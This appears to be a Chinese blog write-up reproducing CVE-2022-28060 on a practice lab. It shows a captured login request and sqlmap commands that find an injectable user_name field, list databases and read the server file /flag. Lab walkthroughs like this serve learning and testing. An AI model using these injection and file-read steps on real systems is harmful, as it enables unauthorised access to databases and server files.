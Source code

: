 ```yaml
---
title: CVE-2022-28060
subtitle:
date: 2025-03-14T12:25:22+08:00
slug: 5287c03
draft: false
author:
  name: T1ng
  link:
  email:
  avatar: /images/avater.jpg
description:
keywords:
license:
comment: false
weight: 0
tags:
  - CVE
categories:
  - 复现
hiddenFromHomePage: false
hiddenFromSearch: false
hiddenFromRelated: false
hiddenFromFeed: false
summary:
resources:
  - name: featured-image
    src: featured-image.jpg
  - name: featured-image-preview
    src: featured-image-preview.jpg
toc: true
math: false
lightgallery: false
password:
message:
repost:
  enable: false
  url:

# See details front matter: https://fixit.lruihao.cn/documentation/content-management/introduction/#front-matter
---
```


<!--more-->

<!-- Place resource files in the current article directory and reference them using relative paths, like this: `![alt](images/screenshot.jpg)`. -->



![](images/fbdef1d41c2d0796f14b0ac7d0745f34.png)

登录界面抓包

![](images/dd38d280c99453e514df2800c0519d66.png)

保存到sqlmap.txt文件

```
POST /includes/login.php HTTP/1.1
Host: eci-2zegulk0x3fs763elqws.cloudeci1.ichunqiu.com
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:135.0) Gecko/20100101 Firefox/135.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 40
Origin: http://eci-2zegulk0x3fs763elqws.cloudeci1.ichunqiu.com
Connection: close
Referer: http://eci-2zegulk0x3fs763elqws.cloudeci1.ichunqiu.com/
Cookie: PHPSESSID=mffqfi2m3ekldslts7b7kr0avm
Upgrade-Insecure-Requests: 1
Priority: u=0, i

user_name=admin&user_password=123&login=
```

尝试探测，找到哪个字段存在注入点

```
sqlmap -r sqlmap.txt --batch
```



![](images/c37592f81ddd5d3bd105961850e2ae28.png)

找到注入点为user_name，暴力破解数据库

```
sqlmap -r sqlmap.txt --batch --dbs
```



![](images/5cce3304081278a26f487af6608d0706.png)

在mysql数据库中查找flag

```
sqlmap -r sqlmap.txt --batch -D "mysql" --file-read "/flag"
```



![](images/914419ee8f9c209a35145f1f5c4883e4.png)

读取flag

```
cat /root/.local/share/sqlmap/output/eci-2zegulk0x3fs763elqws.cloudeci1.ichunqiu.com/files/_flag
```



![](images/8a567af596126f178d3c4e955f921287.png)

